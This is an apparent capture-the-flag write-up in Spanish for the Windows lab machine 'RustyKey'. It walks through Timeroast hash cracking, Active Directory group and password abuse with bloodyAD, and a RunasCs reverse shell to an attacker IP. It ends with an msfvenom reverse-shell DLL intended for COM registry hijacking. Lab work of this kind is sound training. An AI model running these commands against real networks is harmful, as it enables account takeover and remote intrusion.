









# Resolución maquina rustykey

**Autor:** PepeMaquina  
**Fecha:** 04 noviembre de 2025  
**Dificultad:** Hard  
**Sistema Operativo:** Windows 
**Tags:** Timeroast atack, bloodhound, dll injection, DCsync.

---
## Imagen de la Máquina

*Imagen: RustyKey.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.75 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49672,49674,49675,49676,49677,49682,49696,49736 10.10.11.75 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-05 01:16:58Z)
135/tcp   open  msrpc?
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  unknown
49667/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  unknown
49682/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49736/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.95%I=7%D=11/4%Time=690A3518%P=x86_64-pc-linux-gnu%r(DNS-
SF:SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x04
SF:_udp\x05local\0\0\x0c\0\x01");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-05T01:19:09
|_  start_date: N/A
|_clock-skew: 7h59m57s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
~~~
Se pueden ver los servicios estandar de ad, lo único que se podria hacer es enumerar uno por uno cada servicio, comenzando con el enumerar el nombre del dominio y host.
Por suerte, en el escaneo ya sale el nombre del dominio y tambien muestra el nombre del host, por lo que se agrega directamente al /etc/hosts.
~~~ bash
cat /etc/hosts                                                                                                  
127.0.0.1       localhost
<SNIP>
10.10.11.75 rustykey.htb dc dc.rustykey.htb
~~~
### Enumeración de nombre del dominio
Lo bueno de la maquina, es que comienza con un nombre de usuario y una contraseña valida, para ello se prueba la validez de las credenciales.
~~~ bash
sudo netexec smb 10.10.11.75 -u users -p pass 
SMB         10.10.11.75     445    10.10.11.75      [*]  x64 (name:10.10.11.75) (domain:10.10.11.75) (signing:True) (SMBv1:False)
SMB         10.10.11.75     445    10.10.11.75      [-] 10.10.11.75\rr.parker:8#t5HE8L!W3A STATUS_NOT_SUPPORTED
~~~
Como se puede ver, esto no es posible, por lo que mi unica solucion es sacar el ticket tgt del usuario y enumerar con kerberos.
Pero lo primero que se hace siempre es configurar la hora, esto lo hago con ntpdate.
~~~bash
sudo ntpdate -u 10.10.11.75               
2025-11-04 20:26:36.975559 (-0500) +28797.315410 +/- 0.069416 10.10.11.75 s1 no-leap
CLOCK: time stepped by 28797.315410
~~~ 
De esta manera se sincroniza con el dominio, ahora se debe configurar el archivo krb5 modificando el nombre al del dominio.
~~~bash
cat /etc/krb5.conf
[libdefaults]
        default_realm = RUSTYKEY.HTB

# The following krb5.conf variables are only for MIT Kerberos.
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        rdns = false
        dns_lookup_kdc = false
        dns_lookup_realm = false

# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        RUSTYKEY.HTB = {
                kdc = 10.10.11.75
                kdc = kerberos-1.mit.edu
                kdc = kerberos-2.mit.edu:88
                admin_server = 10.10.11.90
                default_domain = mit.edu
        }
.....
<SNIP>
.....

[domain_realm]
.....
<SNIP>
.....
        .rustykey.htb = RUSTYKEY.HTB
        rustykey.htb = RUSTYKEY.HTB
~~~
Con esto ocnfigurado, ya se puede sacar un ticket tgt sin problemas.
~~~bash
impacket-getTGT -dc-ip 10.10.11.75 'rustykey.htb/rr.parker:8#t5HE8L!W3A'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in rr.parker.ccache
~~~
Ahora se importa el ticket en cache.
~~~bash
export KRB5CCNAME=$(pwd)/rr.parker.ccache

klist                               
Ticket cache: FILE:/home/kali/htb/rustykey/content/rr.parker.ccache
Default principal: rr.parker@RUSTYKEY.HTB

Valid starting       Expires              Service principal
11/04/2025 20:32:36  11/05/2025 06:32:36  krbtgt/RUSTYKEY.HTB@RUSTYKEY.HTB
        renew until 11/05/2025 20:32:05
~~~
Con ello se puede ver que ya somos el usuario "rr.parker"

### Mapeo del dominio con bloodhound
Como no se puede hacer mucho, se realiza el mapeo de bloodhound pero utilizando kerberos.
~~~bash
bloodhound-python -k -no-pass -u 'rr.parker' -c All -d rustykey.htb -ns 10.10.11.75 --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: rustykey.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 16 computers
INFO: Connecting to LDAP server: dc.rustykey.htb
INFO: Found 12 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: dc.rustykey.htb
INFO: Done in 00M 26S
INFO: Compressing output into 20251104203915_bloodhound.zip
~~~
Ahora abriendo bloodhound, se puede ver que no podemos hacer mucho con el usuario que se tiene.

Pero enumerando todo el dominio, se puede ver que existe una maquina que podria ayudar a tener acceso al dominio, este es "IT-Computer3"

Ademas, tambien existen muchas maquinas mas en el dominio.

Por lo que se me ocurren dos tipos de ataques:
1. Normalmente la contraseña por defecto de una maquina es el mismo nombre de la maquina pero en minuscula, pero eso suele ocurrir con maquinas desactivadas, asi que no creo que vaya por ese lado.
2. Hacer un ataque "timeroast" para obtener algunos hashes de las maquinas y esperar que sean decifrables con hashcat.

### Ataque TimeRoast
En esta ocacion me guiare primeramente por la opcion 2, asi que descargando el recurso en github https://github.com/SecuraBV/Timeroast, se procede a obtener los hashes.
~~~bash
python3 timeroast.py dc.rustykey.htb                                             
1000:$sntp-ms$79664c6ed3531082a8e4ab282233369a$1c0<SNIP>b47
1103:$sntp-ms$8f35ed0c5bba25651a73f699edd71d2f$1c0<SNIP>13e
1104:$sntp-ms$cb45759875400f040d310470db89edb1$1c01<SNIP>f16
1105:$sntp-ms$abc6ce4c8dba41e9621f080b2c4473ba$1c0<SNIP>fea
1106:$sntp-ms$d79149d321664f3dd633102d996c9e5c$1c0<SNIP>a24
1107:$sntp-ms$657c12b53822599d9802da06d5115b4e$1c0<SNIP>953
1118:$sntp-ms$afcff8695d46dd8d9208bbc4c925b6aa$1c0<SNIP>a4c
1119:$sntp-ms$d99e1878a5c9a3aa9246f968c5ef89f0$1c0<SNIP>981
1120:$sntp-ms$ab3fea1441e20d22831cbf2c8c3429fb$1c0<SNIP>423
1121:$sntp-ms$26c34676d9de4559b2cef51b4570160f$1c0<SNIP>913
1122:$sntp-ms$2195d0fd66078ab821e8819216f558b4$1c0<SNIP>91b
1123:$sntp-ms$7616ee290dd30ca3522943fe44156e84$1c0<SNIP>5bc
1124:$sntp-ms$bcbfce94d5b476d7a966ba62c4359698$1c0<SNIP>69e
1125:$sntp-ms$f24e0851b85fc1100e083914f635a34f$1c0<SNIP>d63
1126:$sntp-ms$e9be241ce08fa0338577751d64dcd33d$1c0<SNIP>7f4
1127:$sntp-ms$808fc010693dad4e53933ab293fb09b0$1c0<SNIP>ce25
~~~
Como mencione antes, el que mas me llama la atencion es la maquina "IT-COMPUTER3", asi que viendo su SID, ella tiene un RID de 1125.

Asi que intentare descifrar ese hash primero, para ello utilizare hashcat en el modo 31300, pero al parecer este modo solo funciona con la versión beta de hashcat, asi que conviene actualizarlo.
Primero intente con todo el hash completo pero no funciono, luego tuve que borrar el RID para que funcione.
~~~bash
cat hash_1125

$sntp-ms$f24e0851b85fc1100e083914f635a34f$1c0111e900000000000a5e6e4c4f434cecb4be1366c07901e1b8428bffbfcd0aecb53a91f2c87625ecb53a91f2c8cd63
~~~

~~~
hashcat -a 0 -m 31300 hash_1125 /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting
.....
<SNIP>
.....
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$sntp-ms$f24e0851b85fc1100e083914f635a34f$1c0111e900000000000a5e6e4c4f434cecb4be1366c07901e1b8428bffbfcd0aecb53a91f2c87625ecb53a91f2c8cd63:Rusty88!
.....
<SNIP>
.....
~~~
Por suerte si se pudo encontrar una credencial, por ello se va bastante bien.
Entonces con dichas credenciales se solicita un ticket tgt para poder suplantar esa maquina.
~~~bash
impacket-getTGT -dc-ip 10.10.11.75 rustykey.htb/IT-COMPUTER3$:Rusty88!
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in IT-COMPUTER3$.ccache

export KRB5CCNAME=$(pwd)/IT-COMPUTER3$.ccache
~~~
Revisando bloodhound, se deberia de poder realizar cierta explotacion para poder llegar a resetear la contraseña de un usuario con acceso a winrm.

Primero debemos añadirnos al grupo "HELPDESK", esto es simple utilizando bloodyad.
~~~bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb --dc-ip 10.10.11.75 -k add groupMember 'HELPDESK' 'IT-COMPUTER3$' 
[+] IT-COMPUTER3$ added to HELPDESK
~~~
Ahora debemos forzar el cambio de la contraseña y poder ingresar con winrm, pero al intentar hacerlo ocurren problemas tanto con bloody ad como con rpc.
~~~bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb --dc-ip 10.10.11.75 -k set password "BB.MORGAN" 'password123!'
Traceback (most recent call last):
  File "/usr/bin/bloodyAD", line 8, in <module>
    sys.exit(main())
             ~~~~^^
  File "/usr/lib/python3/dist-packages/bloodyAD/main.py", line 201, in main
    output = args.func(conn, **params)
  File "/usr/lib/python3/dist-packages/bloodyAD/cli_modules/set.py", line 241, in password
    raise e
  File "/usr/lib/python3/dist-packages/bloodyAD/cli_modules/set.py", line 86, in password
    conn.ldap.bloodymodify(target, {"unicodePwd": op_list})
    ~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/bloodyAD/network/ldap.py", line 285, in bloodymodify
    raise err
msldap.commons.exceptions.LDAPModifyException: Password can't be changed. It may be because the oldpass provided is not valid.
You can try to use another password change protocol such as smbpasswd, server error may be more explicit. 
~~~

~~~bash
net rpc password "BB.MORGAN" 'password123!' -U "rustykey.htb"/"IT-COMPUTER3$"%'Rusty88!' -S "dc.rustykey.htb" 
session setup failed: NT_STATUS_NOT_SUPPORTED
Failed to set password for 'BB.MORGAN' with error: Failed to connect to IPC$ share on dc.rustykey.htb.
~~~
Desesperado con estos errores, intente buscar otra via de ataque, asi que enumerando mas encontre un grupo que podria ser problematico que afecta tanto al grupo "IT" como "SUPPORT".

Este grupo puede ser alguna forma de evitar que se pueda realizar ciertas acciones, asi que siempre se puede intentar eliminarlo (lo menos recomendado) o desenlazarlo al grupo que esta afectando.
En este caso intentare desenlazarlo al grupo IT al que es parte el usuario al que deseo cambiar la contraseña (BB.MORGAN).
~~~bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb --dc-ip 10.10.11.75 -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT'
[-] IT removed from PROTECTED OBJECTS
~~~
Esto parece haber funcionado, asi que intentando cambiar la contraseña al usuario.
~~~bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb --dc-ip 10.10.11.75 -u 'IT-COMPUTER3$' -p 'Rusty88!' -k set password "BB.MORGAN" 'Password123!'
[+] Password changed successfully!
~~~
Efectivamente funciono el cambio de contraseña.
Ahora para evitar problemas se saca el ticket tgt el usuario e intenta iniciar sesion por winrm.
~~~bash
┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ impacket-getTGT -dc-ip 10.10.11.75 rustykey.htb/BB.MORGAN:Password123!
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in BB.MORGAN.ccache
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ export KRB5CCNAME=$(pwd)/BB.MORGAN.ccache                 
                                                                                                                                                            
┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ klist                               
Ticket cache: FILE:/home/kali/htb/rustykey/content/BB.MORGAN.ccache
Default principal: BB.MORGAN@RUSTYKEY.HTB

Valid starting       Expires              Service principal
11/04/2025 23:30:47  11/05/2025 09:30:47  krbtgt/RUSTYKEY.HTB@RUSTYKEY.HTB
        renew until 11/05/2025 23:27:10
~~~
Con esto se iniciar sesion por winrm y captura la user flag.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso por winrm, ya se puede averiguar la user flag.
~~~
evil-winrm -i dc.rustykey.htb -r rustykey.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> ls
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> cd ..
*Evil-WinRM* PS C:\Users\bb.morgan> tree /f
Folder PATH listing
Volume serial number is 00BA-0DBE
C:.
ÃÄÄÄDesktop
³       internal.pdf
³       user.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
ÃÄÄÄLinks
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\bb.morgan> cd desktop
*Evil-WinRM* PS C:\Users\bb.morgan\desktop> type user.txt
<Encuentre su propia user flag>
~~~

---
## Escalada de Privilegios
Como se puede ver, se tiene un pdf en el escritorio del usuario, al descargar esto y leerlo dice lo siguiente.
~~~pdf
							Internal Memo
From: bb.morgan@rustykey.htb
To: support-team@rustykey.htb
Subject: Support Group - Archiving Tool Access
Date: Mon, 10 Mar 2025 14:35:18 +0100
Hey team,
As part of the new Support utilities rollout, extended access has been temporarily granted to allow
testing and troubleshooting of file archiving features across shared workstations.
This is mainly to help streamline ticket resolution related to extraction/compression issues reported
by the Finance and IT teams. Some newer systems handle context menu actions differently, so
registry-level adjustments are expected during this phase.
A few notes:
- Please avoid making unrelated changes to system components while this access is active.
- This permission change is logged and will be rolled back once the archiving utility is confirmed
stable in all environments.
- Let DevOps know if you encounter access errors or missing shell actions.
Thanks,
BB Morgan
IT Department
~~~
Esto basicamente nos dice que el grupo "SUPPORT" tiene permisos sobre registros para las acciones de comprimir y descomprimir. Esto da una idea de que puede existir un servicio posiblemente zip que es lo mas utilizado para un usuario dentro el grupo.
Revisando Bloodhound se puede ver que el usuario EE.REED pertenece a ese grupo, asi que aprovechando el privilegio del grupo "HELPDESK" se cambia la contraseña.

Para ello tambien se debe desactivar el grupo "PROTECTED OBJECTS" del grupo "SUPPORT"
~~~bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb --dc-ip 10.10.11.75 -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
[-] SUPPORT removed from PROTECTED OBJECTS
~~~

~~~bash
bloodyAD -d rustykey.htb --host dc.rustykey.htb --dc-ip 10.10.11.75 -u 'IT-COMPUTER3$' -p 'Rusty88!' -k set password "EE.REED" 'Password123!'
[+] Password changed successfully!
~~~
Despues al intentar acceder por winrm aparecen mensajes de error, asi que revisando los usuarios en el equipo, este no se presenta dispoible.
~~~bash
*Evil-WinRM* PS C:\Users\bb.morgan> cd ..
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         6/4/2025   9:37 AM                Administrator
d-----       12/30/2024   8:53 PM                bb.morgan
d-----       12/31/2024   1:19 PM                mm.turner
d-r---       12/26/2024   4:22 PM                Public
~~~
Entonces mi unica solucion es poder entrar mediante "runascs".

### Pivoting usuario dentro del grupo "SUPPORT"
Lo primero que hice es subir "runascs" para impersonar otro usuario.
~~~bash
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> upload RunasCs.exe
                                        
Info: Uploading /opt/windows/runas/RunasCs.exe to C:\Users\bb.morgan\Documents\RunasCs.exe
                                        
Data: 68948 bytes of 68948 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> ls
.\

    Directory: C:\Users\bb.morgan\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2025  10:24 PM          51712 RunasCs.exe
~~~
Ahora solo es cosa de abrir un escucha con nc desde mi maquina atacante.
~~~bash
┌──(kali㉿kali)-[~/htb/rustykey/content]
└─$ rlwrap -cAr nc -nvlp 4455
listening on [any] 4455 ...
~~~
Para luego ejecutar una reverse desde mi sesion en winrm suplantando a otro usuario.
~~~bash
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> .\runascs.exe EE.REED Password123! powershell -r 10.10.14.200:4455
[*] Warning: User profile directory for user EE.REED does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'EE.REED' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-41f1667$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 11500 created in background.
~~~
Con esto se obtiene una sesion como el usuario "EE.REED"
~~~bash
connect to [10.10.14.200] from (UNKNOWN) [10.10.11.75] 50856
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> reg query HKCU\SOFTWARE\Policies\Microsoft\windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\windows\Installer /v AlwaysInstallElevated
ERROR: The system was unable to find the specified registry key or value.
PS C:\Windows\system32> whoami
whoami
rustykey\ee.reed
~~~

### Aprovechando permisos de registro ZIP
Se salto a este usuario porque pertenece al grupo "SUPPORT" y segun el pdf este tiene permisos sobre registros de compresion y descompresion, asi que primeramente buscare algun registro de un componente COM, como el mas utilizado buscare como ZIP
~~~bash
PS C:\users\Public\documents> reg query HKCR\CLSID /s /f "zip"
reg query HKCR\CLSID /s /f "zip"

HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}
    (Default)    REG_SZ    7-Zip Shell Extension

HKEY_CLASSES_ROOT\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}
    (Default)    REG_SZ    Compressed (zipped) Folder SendTo Target
    FriendlyTypeName    REG_EXPAND_SZ    @%SystemRoot%\system32\zipfldr.dll,-10226

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}\DefaultIcon
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{888DCA60-FC0A-11CF-8F0F-00C04FD7D062}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{b8cdcb65-b1bf-4b42-9428-1dfdb7ee92af}
    (Default)    REG_SZ    Compressed (zipped) Folder Context Menu

HKEY_CLASSES_ROOT\CLSID\{b8cdcb65-b1bf-4b42-9428-1dfdb7ee92af}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{BD472F60-27FA-11cf-B8B4-444553540000}
    (Default)    REG_SZ    Compressed (zipped) Folder Right Drag Handler

HKEY_CLASSES_ROOT\CLSID\{BD472F60-27FA-11cf-B8B4-444553540000}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\DefaultIcon
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{E88DCCE0-B7B3-11d1-A9F0-00AA0060FA31}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

HKEY_CLASSES_ROOT\CLSID\{ed9d80b9-d157-457b-9192-0e7280313bf0}
    (Default)    REG_SZ    Compressed (zipped) Folder DropHandler

HKEY_CLASSES_ROOT\CLSID\{ed9d80b9-d157-457b-9192-0e7280313bf0}\InProcServer32
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\zipfldr.dll

End of search: 14 match(es) found.
~~~
Se puede ver que si existen. Ahora se me ocurre reemplazar el dll de ejecucion por uno malicioso que seria una reverse, de forma que cuando alguien intente comprimir algo se ejecute el dll enviandome una reverse shell.
Primero creo mi reverse con mdfvenom.
~~~bash
┌──(kali㉿kali)-[~/htb/rustykey/exploits]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.200 LPORT=4411 -f dll -o shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
~~~
